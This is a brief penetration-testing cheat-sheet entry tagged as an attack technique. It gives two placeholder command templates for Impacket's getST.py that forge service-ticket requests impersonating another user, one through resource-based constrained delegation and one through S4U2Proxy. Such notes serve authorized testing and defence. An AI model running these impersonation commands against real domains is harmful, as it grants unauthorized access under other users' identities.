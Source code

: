 # getst
#plateform/linux #target/remote #cat/ATTACK

## RBCD
```
getST.py -spn <service|cifs>/<target> -impersonate '<imp_user>' <domain>/<user>:'<passwd>'
```

## S4U2Proxy
```
getST.py -spn <service|cifs>/<target> -additional-ticket '<ticket_file>' -impersonate '<imp_user>' <domain>/'<user>':'<passwd>'
```
